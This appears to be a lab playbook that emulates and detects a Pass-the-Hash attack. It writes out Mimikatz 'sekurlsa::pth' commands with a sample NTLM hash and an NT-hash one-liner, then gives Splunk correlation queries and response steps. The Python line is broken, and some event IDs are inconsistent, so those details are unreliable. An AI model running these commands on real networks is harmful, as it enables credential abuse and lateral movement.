



# Detection Validation Playbook: Pass-The-Hash (T1550.002)

This playbook documents the TTP emulation, log analysis, and response procedure for a Pass-the-Hash (PTH) attack, ensuring detection logic is validated against observed artifacts.

Field | Detail |
------|--------|
TTP | T1550.002 - Use Alternate Authentication Material: Pass-the-Hash |
Objective | Validate the detection and response capability for lateral movement using stolen NTLM hashes, specifically looking for Logon Type 9 and non-standard process chains. |
Environment	| Target Endpoints: Windows Client Systems |
Tools Used | Mimikatz, pycryptodome (Python lib), Splunk |

# 1. Offensive Steps

This section documents the precise steps taken to emulate the attacker's TTP, resulting in the generation of detectable log data.

## 1.1 Pre-requisites

- Make sure to install the required tools and libraries (Mimikatz, pycryptodome)

## 1.2 Hash Acquisition

**Goal:** Already obtained the hash file using kerberoasting. now the goal is to extract NTLM hash from the obtained hash file.

Install pycryptodome and compute NTLM hash


```bash
# Run from the compromised endpoint i.e. member01@lab.local
python -c "from Crypto.Hash import MD4; pw="Abcdefg@123"; h=MD.new(); h.update(pw.encode('utf-161e')); print(h.hexdigest())"
```

**Output:** gives the computed NT hash `ea9982bb37515115ed9365d727fb5f66`

## 1.3 Lateral Movement using NT Hash

**Goal:** Authenticate and execute a process on a windows endpoint without the plaintext password, using stolen NTLM hash.

Install Mimikatz, open and navigate to mimikatz.exe



Run the following commands:

```bash
cd "C:\Users\member01\Downloads\mimikatz_trunk\x64" #navigating to mimikatz folder
.\mimikatz.exe
privilege::debug
sekurlsa::pth /user:service_account /domain:lab.local /ntlm:ea9982bb37515115ed9365d727fb5f66
```



### Proof of Compromise

Once the mimikatz command are executed successfully anomalous process execution chains are initiated (i.e. cmd.exe)



# 2. Defensive Steps

This section details the Splunk correlation logic and the evidence of detection validation.

## 2.1 Log Source and Artifacts

The successful authentication logs show `Event ID 4624` with `Logon Type 9`

- Source: Windows Security Event Log (4624) and Sysmon Operational Log (Event ID 1)

- Critical Events:
    Event ID 4626 - successful logon where Logon type is 9
    Sysmon Event ID 1 - Process creation logs showing cmd.exe executed with same LogonID that matches the suspicious 4624 event

- Corrleation Sign: The security incident is confirmed when a Sysmon Event ID 1 (Process Create) record shows a malicious or suspicious process (e.g., net.exe, cmd.exe) executing under a LogonId that exactly matches the Logon ID from a preceding Event ID 4624 (Successful Logon) with Logon Type 9

## 2.2 Splunk SPL Queries

The initial treace for PTH is detected using the Event ID 4626 with logon type 9 which is worthy to note due to its rarity.

```bash
index=wineventlog 
| spath 
| rex field=_raw "<EventID>(?<EventID>\d+)</EventID>"
| rex field=_raw "<Data Name='LogonType'>(?<LogonType>[^<]+)</Data>"
| rex field=_raw "<Data Name='LogonId'>(?<LogonId>[^<]+)</Data>"
| rex field=_raw "<Data Name='LogonType'>(?<LogonType>[^<]+)</Data>"
| rex field=_raw "<Data Name='TargetUserName'>(?<TargetUserName>[^<]+)</Data>"
| rex field=_raw "<Data Name='TargetDomainName'>(?<TargetDomainName>[^<]+)</Data>"
| rex field=_raw "<Data Name='ParentProcessName'>(?<ParentProcessName>[^<]+)</Data>"
| rex field=_raw "<Data Name='IpAddress'>(?<IpAddress>[^<]+)</Data>"
| where EventID=4624
| where LogonType=9
```

With the given event results for the above SPL query, the TargetLogonId is noted as `0x26bb03`


Procceding further, in order to correlate this event, search for event ID 1 which has the same LogonId with malicious process running (cmd.exe or mimikatz.exe) during the same time (23:50:00) soon after the logon.


```bash
index=wineventlog 
| spath 
| rex field=_raw "<EventID>(?<EventID>\d+)</EventID>"
| rex field=_raw "<Data Name='LogonType'>(?<LogonType>[^<]+)</Data>"
| rex field=_raw "<Data Name='LogonId'>(?<LogonId>[^<]+)</Data>"
| rex field=_raw "<Data Name='LogonType'>(?<LogonType>[^<]+)</Data>"
| rex field=_raw "<Data Name='TargetUserName'>(?<TargetUserName>[^<]+)</Data>"
| rex field=_raw "<Data Name='TargetDomainName'>(?<TargetDomainName>[^<]+)</Data>"
| rex field=_raw "<Data Name='ParentProcessName'>(?<ParentProcessName>[^<]+)</Data>"
| rex field=_raw "<Data Name='IpAddress'>(?<IpAddress>[^<]+)</Data>"
| where EventID=1
| where LogonId="0x26bb03"
```
The above SPL query was executed with a time window filter of ±1 minute around the occurrence of the preceding Event ID 4624 (successful logon) event.


The result of the SPL query serves as the proof of successful PTH logon.

From the above screenshot it is inferred that, within the same timeframe of Logon there are evidences for:
- Execution of mimikatz.exe (credential dumping tool)
- Successful logon as the Admin account
- cmd.exe process creation under the same LogonID

**Conclusion:** The correlation technique with the written detection logic confirms the PTH attack and identified anomalous behaviour consistent with Pass-The-Hash activity validating the rule against MITRE ATT&CK technique T1550.002 (Pass-the-Hash).

# 3. Incident Response


| Phase | Action and Execution Details |
--------------|------------------------------|
Containment | Immediately disable the attacker’s account to stop further abuse: `Disable-ADAccount -Identity "member01@lab.local"` Try solate the source host from the network |
Eradication | Reset passwords for compromised/privileged accounts. Restart services/hosts where NTLM session caching may persist |
Triage | Hunt for lateral movement and persistence (scheduled tasks, services, new accounts) |


